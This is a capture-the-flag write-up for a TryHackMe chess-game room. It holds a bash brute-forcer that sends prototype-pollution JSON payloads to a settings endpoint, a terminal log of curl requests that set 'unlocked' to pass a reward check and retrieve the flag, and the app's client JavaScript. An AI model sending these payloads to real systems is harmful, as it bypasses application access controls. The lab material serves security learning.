

# [FoolsM8V2](https://tryhackme.com/room/foolsm8v2)



Prototype pollution vulnerability in backend. Applied `gobuster` with enumeration of keys on `constructor.prototype.*` to set the `unlock` key to `true`. 

Executing the `/api/move` endpoint then returned the flag in the response. 

BF Script[AI? Yes.]:

```bash
#!/bin/bash
#
# Prototype Pollution brute-forcer via gobuster
#
# Flow:
#   1. POST /api/settings with body:
#        {"constructor":{"prototype":{"<KEY>": true}}}
#   2. POST /api/reset-board  -> look for KEY in response
#   3. POST /api/move         -> look for KEY in response
#
# A candidate KEY is "valid" when it shows up in the response body of
# /api/reset-board OR /api/move after being polluted via /api/settings.
#
# Usage: ./pp-brute.sh <TARGET_URL> <WORDLIST>
# Example: ./pp-brute.sh http://target.local /usr/share/seclists/.../keys.txt
#

set -u

TARGET="${1:-}"
WORDLIST="${2:-}"

if [[ -z "$TARGET" || -z "$WORDLIST" ]]; then
    echo "Usage: $0 <TARGET_URL> <WORDLIST>"
    echo "Example: $0 http://target.local wordlist.txt"
    exit 1
fi

# Strip trailing slash from target
TARGET="${TARGET%/}"

SETTINGS_URL="${TARGET}/api/settings"
RESET_URL="${TARGET}/api/reset-board"
MOVE_URL="${TARGET}/api/move"

OUTDIR="./gobuster-pp-$(date +%s)"
mkdir -p "$OUTDIR"

echo "[*] Target       : $TARGET"
echo "[*] Wordlist     : $WORDLIST"
echo "[*] Output dir   : $OUTDIR"
echo

# ---------------------------------------------------------------------------
# 1) Brute-force phase: gobuster POSTs a JSON body to /api/settings
#    The body interpolates %s from the wordlist into the prototype key.
# ---------------------------------------------------------------------------
# Notes:
#   - gobuster v3 does not have a native "-m POST -d" for arbitrary bodies on
#     the "dir" mode with a wordlist placeholder. The common trick is to use
#     --body with a template and rely on gobuster substituting the wordlist
#     entry. If your gobuster build doesn't support that, wrap each request
#     in a tiny fuzz helper (see fallback below).
# ---------------------------------------------------------------------------

GOBUSTER_BODY='{"constructor":{"prototype":{"%s":true}}}'

echo "[*] Phase 1: gobuster fuzzing /api/settings ..."
gobuster dir \
    -u "$SETTINGS_URL" \
    -w "$WORDLIST" \
    -m POST \
    -H "Content-Type: application/json" \
    --body "$GOBUSTER_BODY" \
    -t 20 \
    --timeout 10s \
    --no-error \
    --no-progress \
    -o "$OUTDIR/gobuster.log" \
    -x '' 2>&1 | tee "$OUTDIR/gobuster.stdout"

# ---------------------------------------------------------------------------
# 2) Validation phase: for every candidate wordlist entry, replay the
#    pollution, then check /api/reset-board and /api/move responses for the
#    injected key.
#
#    We re-send requests ourselves (curl) so we can grep the response bodies.
#    This is the reliable path; gobuster's output is only used as a candidate
#    shortlist / log.
# ---------------------------------------------------------------------------

echo
echo "[*] Phase 2: validating candidates against /api/reset-board and /api/move ..."

FOUND_FILE="$OUTDIR/found.txt"
: > "$FOUND_FILE"

# Normalize wordlist to a plain list (in case gobuster accepted -x flags etc.)
mapfile -t CANDIDATES < <(grep -vE '^\s*(#|$)' "$WORDLIST")

total=${#CANDIDATES[@]}
i=0

for key in "${CANDIDATES[@]}"; do
    i=$((i+1))

    # Basic safety: skip keys that would break JSON
    if [[ "$key" == *'"'* || "$key" == *'\'* ]]; then
        continue
    fi

    # 2a) Pollute via /api/settings
    pollute_body="{\"constructor\":{\"prototype\":{\"${key}\":true}}}"

    curl -s -o /dev/null \
        -X POST "$SETTINGS_URL" \
        -H "Content-Type: application/json" \
        --data "$pollute_body"

    # 2b) Trigger /api/reset-board and check response
    reset_resp="$(curl -s -X POST "$RESET_URL" \
        -H "Content-Type: application/json" \
        --data '{}' 2>/dev/null)"

    # 2c) Trigger /api/move and check response
    move_resp="$(curl -s -X POST "$MOVE_URL" \
        -H "Content-Type: application/json" \
        --data '{}' 2>/dev/null)"

    # 2d) Is the key reflected / present in either response?
    hit=""
    if grep -qF "$key" <<<"$reset_resp"; then
        hit="reset-board"
    fi
    if grep -qF "$key" <<<"$move_resp"; then
        if [[ -n "$hit" ]]; then
            hit="$hit+move"
        else
            hit="move"
        fi
    fi

    if [[ -n "$hit" ]]; then
        printf '[+] HIT  key=%-30s  in=%s\n' "$key" "$hit" | tee -a "$FOUND_FILE"
        {
            echo "----- key: $key  ($hit) -----"
            echo "[reset-board]"
            echo "$reset_resp"
            echo "[move]"
            echo "$move_resp"
            echo
        } >> "$OUTDIR/hits-detail.txt"
    fi

    # Progress
    if (( i % 25 == 0 )); then
        printf '    ... %d/%d tested\n' "$i" "$total" >&2
    fi
done

echo
echo "[*] Done."
echo "[*] Hits      : $FOUND_FILE"
echo "[*] Detail    : $OUTDIR/hits-detail.txt"
echo "[*] Full log  : $OUTDIR/gobuster.log"
```

| Why prototype pollution??? Because it's common in backend JS code. And I finished a THM room on it recently. 

```bash
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/settings' \  
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  -d '{"theme":"forest","pieceSet":"classic","animationMs":180,"constructor":{"prototype":{"config":true}}}' \
> --insecure
{"ok":true,"preferences":{"theme":"forest","pieceSet":"classic","animationMs":180}}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/settings' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  -d '{"theme":"forest","pieceSet":"classic","animationMs":180,"constructor":{"prototype":{"config":true}}}' \
--insecure
{"ok":true,"preferences":{"theme":"forest","pieceSet":"classic","animationMs":180}}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/reset' \
  -X 'POST' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Connection: keep-alive' \
  -H 'Content-Length: 0' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --insecure

{"ok":true,"fen":"6k1/5ppp/8/8/8/8/5PPP/R5K1 w - - 0 1","status":"ongoing","turn":"w"}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/move' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw '{"from":"a1","to":"a8"}' \
  --insecure

{"ok":true,"move":"a1a8","fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1","status":"checkmate","turn":"b","winner":"white","locked":true,"message":"Checkmate! No reward for you.","reason":"reward gate closed: session.config.unlocked is not set"}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl -X POST http://target./thm:3000/api/settings \
     -H "Content-Type: application/json" \
     -d '{"theme":"forest","pieceSet":"classic","animationMs":180,"constructor":{"prototype":{"config":true}}}'
curl: (6) Could not resolve host: target.
                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl -X POST http://target.thm:3000/api/settings \ 
     -H "Content-Type: application/json" \
     -d '{"theme":"forest","pieceSet":"classic","animationMs":180,"constructor":{"prototype":{"config":true}}}'
{"ok":true,"preferences":{"theme":"forest","pieceSet":"classic","animationMs":180}}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/move' \           
  -H 'Accept: */*' \                      
  -H 'Accept-Language: en-US,en;q=0.5' \                                                                       
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw '{"from":"a1","to":"a8"}' \
  --insecure

{"ok":false,"error":"illegal move","fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1"}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/reset' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw '{"from":"a1","to":"a8"}' \
  --insecure

{"ok":true,"fen":"6k1/5ppp/8/8/8/8/5PPP/R5K1 w - - 0 1","status":"ongoing","turn":"w"}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl -X POST http://target.thm:3000/api/settings \
     -H "Content-Type: application/json" \
     -d '{"theme":"forest","pieceSet":"classic","animationMs":180,"constructor":{"prototype":{"config":true}}}'
{"ok":true,"preferences":{"theme":"forest","pieceSet":"classic","animationMs":180}}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/move' \          
  -H 'Accept: */*' \                      
  -H 'Accept-Language: en-US,en;q=0.5' \                                                                       
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw '{"from":"a1","to":"a8"}' \
  --insecure

{"ok":true,"move":"a1a8","fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1","status":"checkmate","turn":"b","winner":"white","locked":true,"message":"Checkmate! No reward for you.","reason":"reward gate closed: session.config.unlocked is not set"}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl -X POST http://target.thm:3000/api/settings \
     -H "Content-Type: application/json" \
     -d '{"theme":"forest","pieceSet":"classic","animationMs":180,"constructor":{"prototype":{"unlocked":true}}}'
{"ok":true,"preferences":{"theme":"forest","pieceSet":"classic","animationMs":180}}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/move' \          
  -H 'Accept: */*' \                      
  -H 'Accept-Language: en-US,en;q=0.5' \                                                                         
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw '{"from":"a1","to":"a8"}' \
  --insecure

{"ok":false,"error":"illegal move","fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1"}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/reset' \         
  -H 'Accept: */*' \                      
  -H 'Accept-Language: en-US,en;q=0.5' \                                                                         
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw '{"from":"a1","to":"a8"}' \
  --insecure

{"ok":true,"fen":"6k1/5ppp/8/8/8/8/5PPP/R5K1 w - - 0 1","status":"ongoing","turn":"w"}                                                                                                                                     
┌──(thmenv)─(kali㉿kali)-[~/Downloads]
└─$ curl 'http://target.thm:3000/api/move' \ 
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -b 'sid=1e6f1a04d49f189e440bce9e3f83d036' \
  -H 'Origin: http://target.thm:3000' \
  -H 'Referer: http://target.thm:3000/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --data-raw '{"from":"a1","to":"a8"}' \
  --insecure

{"ok":true,"move":"a1a8","fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1","status":"checkmate","turn":"b","winner":"white","flag":"THM{pr0t0_p0lluted_th3_4f5r55r53r33}"}     
```

Accessible JS code:

```js
import { Chess } from '../vendor/chess.js';

const START_FEN = '6k1/5ppp/8/8/8/8/5PPP/R5K1 w - - 0 1';
const FILES = 'abcdefgh';

const boardEl = document.getElementById('board');
const ranksEl = document.getElementById('ranks');
const filesEl = document.getElementById('files');
const moveListEl = document.getElementById('moveList');
const statusText = document.getElementById('statusText');
const turnDot = document.getElementById('turnDot');
const flagBanner = document.getElementById('flagBanner');
const resetBtn = document.getElementById('resetBtn');
const toastStack = document.getElementById('toastStack');
const modalOverlay = document.getElementById('modalOverlay');
const winMessage = document.getElementById('winMessage');
const winOk = document.getElementById('winOk');
const themeSelect = document.getElementById('themeSelect');
const pieceSetSelect = document.getElementById('pieceSetSelect');
const animSelect = document.getElementById('animSelect');
const savePrefsBtn = document.getElementById('savePrefsBtn');

const game = new Chess(START_FEN);
const sqDivs = {};
let els = {};
let history = [];
let selected = null;
let locked = false;

let dragEl = null;
let dragFrom = null;
let dragging = false;
let downX = 0;
let downY = 0;

function sqToXY(sq) {
  const f = FILES.indexOf(sq[0]);
  const r = parseInt(sq[1], 10);
  return { x: f * 12.5, y: (8 - r) * 12.5 };
}

function codeOf(cell) {
  return cell.color + cell.type.toUpperCase();
}

function buildBoard() {
  for (let r = 8; r >= 1; r--) {
    for (let f = 0; f < 8; f++) {
      const sq = FILES[f] + r;
      const d = document.createElement('div');
      const isLight = (f + r) % 2 !== 0;
      d.className = 'square ' + (isLight ? 'light' : 'dark');
      const { x, y } = sqToXY(sq);
      d.style.left = x + '%';
      d.style.top = y + '%';
      d.dataset.square = sq;
      boardEl.appendChild(d);
      sqDivs[sq] = d;
    }
  }
  for (let r = 8; r >= 1; r--) {
    const s = document.createElement('span');
    s.textContent = r;
    ranksEl.appendChild(s);
  }
  for (let f = 0; f < 8; f++) {
    const s = document.createElement('span');
    s.textContent = FILES[f];
    filesEl.appendChild(s);
  }
}

function setElPos(el, sq, instant) {
  const { x, y } = sqToXY(sq);
  if (instant) {
    el.style.transition = 'none';
    el.style.left = x + '%';
    el.style.top = y + '%';
    void el.offsetWidth;
    el.style.transition = '';
  } else {
    el.style.left = x + '%';
    el.style.top = y + '%';
  }
}

function renderFull() {
  for (const el of Object.values(els)) el.remove();
  els = {};
  const board = game.board();
  for (let row = 0; row < 8; row++) {
    for (let col = 0; col < 8; col++) {
      const cell = board[row][col];
      if (!cell) continue;
      const sq = FILES[col] + (8 - row);
      const el = document.createElement('div');
      el.className = 'piece ' + codeOf(cell);
      el.dataset.square = sq;
      const { x, y } = sqToXY(sq);
      el.style.transition = 'none';
      el.style.left = x + '%';
      el.style.top = y + '%';
      boardEl.appendChild(el);
      els[sq] = el;
    }
  }
  void boardEl.offsetWidth;
  for (const el of Object.values(els)) el.style.transition = '';
  refreshHighlights();
}

function animateMove(from, to) {
  const el = els[from];
  if (!el) { renderFull(); return; }
  if (els[to]) {
    const cap = els[to];
    delete els[to];
    setTimeout(() => cap.remove(), 170);
  }
  setElPos(el, to, false);
  el.dataset.square = to;
  delete els[from];
  els[to] = el;
}

function clearHints() {
  boardEl.querySelectorAll('.hint').forEach((n) => n.remove());
}

function showHints(sq) {
  clearHints();
  const moves = game.moves({ square: sq, verbose: true });
  for (const m of moves) {
    const h = document.createElement('div');
    const occupied = !!els[m.to] || m.flags.includes('e');
    h.className = 'hint' + (occupied ? ' capture' : '');
    const { x, y } = sqToXY(m.to);
    h.style.left = x + '%';
    h.style.top = y + '%';
    const spot = document.createElement('div');
    spot.className = 'spot';
    h.appendChild(spot);
    boardEl.appendChild(h);
  }
}

function clearSelection() {
  if (selected && sqDivs[selected]) sqDivs[selected].classList.remove('selected');
  selected = null;
  clearHints();
}

function select(sq) {
  clearSelection();
  selected = sq;
  sqDivs[sq].classList.add('selected');
  showHints(sq);
}

function refreshHighlights() {
  Object.values(sqDivs).forEach((d) => d.classList.remove('in-check'));
  if (game.isCheck() || game.isCheckmate()) {
    const turn = game.turn();
    const board = game.board();
    for (let row = 0; row < 8; row++) {
      for (let col = 0; col < 8; col++) {
        const cell = board[row][col];
        if (cell && cell.type === 'k' && cell.color === turn) {
          sqDivs[FILES[col] + (8 - row)].classList.add('in-check');
        }
      }
    }
  }
}

function setLastMove(from, to) {
  Object.values(sqDivs).forEach((d) => d.classList.remove('last-move'));
  if (sqDivs[from]) sqDivs[from].classList.add('last-move');
  if (sqDivs[to]) sqDivs[to].classList.add('last-move');
}

function recordMove(san, color) {
  if (color === 'w') history.push({ w: san, b: '' });
  else if (history.length) history[history.length - 1].b = san;
  renderMoveList();
}

function renderMoveList() {
  moveListEl.innerHTML = '';
  history.forEach((mv, i) => {
    const num = document.createElement('li');
    num.className = 'num';
    num.textContent = i + 1 + '.';
    const w = document.createElement('li');
    w.className = 'ply';
    w.textContent = mv.w;
    const b = document.createElement('li');
    b.className = 'ply';
    b.textContent = mv.b;
    if (i === history.length - 1) {
      (mv.b ? b : w).classList.add('last');
    }
    moveListEl.appendChild(num);
    moveListEl.appendChild(w);
    moveListEl.appendChild(b);
  });
  moveListEl.scrollTop = moveListEl.scrollHeight;
}

function updateStatus() {
  const turn = game.turn();
  turnDot.classList.toggle('black', turn === 'b');
  if (game.isCheckmate()) {
    statusText.textContent = turn === 'b' ? 'Checkmate \u2014 White wins' : 'Checkmate \u2014 Black wins';
  } else if (game.isStalemate()) {
    statusText.textContent = 'Stalemate';
  } else if (game.isDraw()) {
    statusText.textContent = 'Draw';
  } else if (game.isCheck()) {
    statusText.textContent = (turn === 'w' ? 'White' : 'Black') + ' in check';
  } else {
    statusText.textContent = (turn === 'w' ? 'White' : 'Black') + ' to move';
  }
}

function showFlag(flag) {
  flagBanner.hidden = false;
  flagBanner.textContent = flag;
}

function toast(msg) {
  const t = document.createElement('div');
  t.className = 'toast';
  t.textContent = msg;
  toastStack.appendChild(t);
  requestAnimationFrame(() => t.classList.add('show'));
  setTimeout(() => {
    t.classList.remove('show');
    setTimeout(() => t.remove(), 220);
  }, 1700);
}

function showSystemNotice(msg) {
  winMessage.textContent = msg;
  modalOverlay.hidden = false;
}

function hideSystemNotice() {
  modalOverlay.hidden = true;
}

function isLegalTarget(from, to) {
  return game.moves({ square: from, verbose: true }).some((m) => m.to === to);
}

function needsPromotion(from, to) {
  return game.moves({ square: from, verbose: true }).some((m) => m.to === to && m.promotion);
}

async function sendMove(from, to, promotion) {
  locked = true;
  let res, data;
  try {
    res = await fetch('/api/move', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ from, to, promotion: promotion || undefined })
    });
    data = await res.json();
  } catch (e) {
    locked = false;
    renderFull();
    return;
  }
  if (!res.ok || !data || !data.ok) {
    locked = false;
    renderFull();
    return;
  }

  const pMove = game.move({ from, to, promotion: promotion || undefined });
  animateMove(from, to);
  recordMove(pMove ? pMove.san : from + to, 'w');
  setLastMove(from, to);

  if (data.botMove) {
    const bf = data.botMove.slice(0, 2);
    const bt = data.botMove.slice(2, 4);
    const bp = data.botMove.slice(4);
    setTimeout(() => {
      const bMove = game.move({ from: bf, to: bt, promotion: bp || undefined });
      animateMove(bf, bt);
      recordMove(bMove ? bMove.san : bf + bt, 'b');
      setLastMove(bf, bt);
      if (game.fen() !== data.fen) { game.load(data.fen); renderFull(); }
      finalize(data);
      locked = game.isGameOver();
    }, 220);
  } else {
    if (game.fen() !== data.fen) { game.load(data.fen); renderFull(); }
    finalize(data);
    locked = game.isGameOver();
  }
}

function finalize(data) {
  refreshHighlights();
  updateStatus();
  if (data.flag) {
    showFlag(data.flag);
  } else if (data.locked) {
    showSystemNotice(data.message || 'Checkmate! Reward is locked for this account.');
  }
}

function doMove(from, to) {
  if (!isLegalTarget(from, to)) return false;
  const promotion = needsPromotion(from, to) ? 'q' : undefined;
  sendMove(from, to, promotion);
  return true;
}

function pointAtSquare(clientX, clientY) {
  const rect = boardEl.getBoundingClientRect();
  const fx = (clientX - rect.left) / rect.width;
  const fy = (clientY - rect.top) / rect.height;
  if (fx < 0 || fx >= 1 || fy < 0 || fy >= 1) return null;
  const col = Math.floor(fx * 8);
  const row = Math.floor(fy * 8);
  return FILES[col] + (8 - row);
}

function onPointerDown(e) {
  if (locked) return;
  const sq = pointAtSquare(e.clientX, e.clientY);
  if (!sq) return;

  if (selected && selected !== sq && isLegalTarget(selected, sq)) {
    const from = selected;
    clearSelection();
    doMove(from, sq);
    return;
  }

  const piece = game.get(sq);
  if (piece && piece.color === 'w' && game.turn() === 'w' && els[sq]) {
    select(sq);
    dragEl = els[sq];
    dragFrom = sq;
    dragging = false;
    downX = e.clientX;
    downY = e.clientY;
    dragEl.setPointerCapture(e.pointerId);
  } else {
    clearSelection();
  }
}

function onPointerMove(e) {
  if (!dragEl) return;
  if (!dragging) {
    const dist = Math.hypot(e.clientX - downX, e.clientY - downY);
    if (dist < 5) return;
    dragging = true;
    dragEl.classList.add('dragging');
  }
  const rect = boardEl.getBoundingClientRect();
  let px = ((e.clientX - rect.left) / rect.width) * 100 - 6.25;
  let py = ((e.clientY - rect.top) / rect.height) * 100 - 6.25;
  px = Math.max(-6.25, Math.min(93.75, px));
  py = Math.max(-6.25, Math.min(93.75, py));
  dragEl.style.transition = 'none';
  dragEl.style.left = px + '%';
  dragEl.style.top = py + '%';
}

function onPointerUp(e) {
  if (!dragEl) return;
  const el = dragEl;
  const from = dragFrom;
  const wasDragging = dragging;
  dragEl = null;
  dragFrom = null;
  dragging = false;
  el.classList.remove('dragging');
  el.style.transition = '';

  if (!wasDragging) {
    return;
  }

  const drop = pointAtSquare(e.clientX, e.clientY);
  if (drop && drop !== from && isLegalTarget(from, drop)) {
    setElPos(el, from, true);
    clearSelection();
    doMove(from, drop);
  } else {
    setElPos(el, from, true);
    clearSelection();
  }
}

async function reset() {
  let data;
  try {
    const res = await fetch('/api/reset', { method: 'POST' });
    data = await res.json();
  } catch (e) {
    return;
  }
  game.load(data && data.fen ? data.fen : START_FEN);
  history = [];
  renderMoveList();
  Object.values(sqDivs).forEach((d) => d.classList.remove('last-move', 'in-check', 'selected'));
  selected = null;
  flagBanner.hidden = true;
  flagBanner.textContent = '';
  locked = false;
  renderFull();
  updateStatus();
}

boardEl.addEventListener('pointerdown', onPointerDown);
boardEl.addEventListener('pointermove', onPointerMove);
boardEl.addEventListener('pointerup', onPointerUp);
boardEl.addEventListener('pointercancel', onPointerUp);
resetBtn.addEventListener('click', reset);
winOk.addEventListener('click', hideSystemNotice);
modalOverlay.addEventListener('click', (e) => { if (e.target === modalOverlay) hideSystemNotice(); });
document.addEventListener('keydown', (e) => { if (e.key === 'Escape') hideSystemNotice(); });

function applyPrefs(p) {
  if (!p) return;
  if (p.theme) {
    document.body.dataset.theme = p.theme;
    themeSelect.value = p.theme;
  }
  if (p.pieceSet) {
    document.body.dataset.pieceSet = p.pieceSet;
    pieceSetSelect.value = p.pieceSet;
  }
  if (typeof p.animationMs !== 'undefined') {
    document.documentElement.style.setProperty('--anim', Number(p.animationMs) + 'ms');
    animSelect.value = String(p.animationMs);
  }
}

async function savePrefs() {
  const prefs = {
    theme: themeSelect.value,
    pieceSet: pieceSetSelect.value,
    animationMs: Number(animSelect.value)
  };
  applyPrefs(prefs);
  try {
    const res = await fetch('/api/settings', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify(prefs)
    });
    const data = await res.json();
    if (data && data.preferences) applyPrefs(data.preferences);
  } catch (e) {}
  toast('Preferences saved');
}

async function loadState() {
  try {
    const res = await fetch('/api/state');
    const data = await res.json();
    if (data && data.fen) game.load(data.fen);
  } catch (e) {}
  renderFull();
  updateStatus();
}

savePrefsBtn.addEventListener('click', savePrefs);

buildBoard();
renderFull();
updateStatus();
loadState();
```
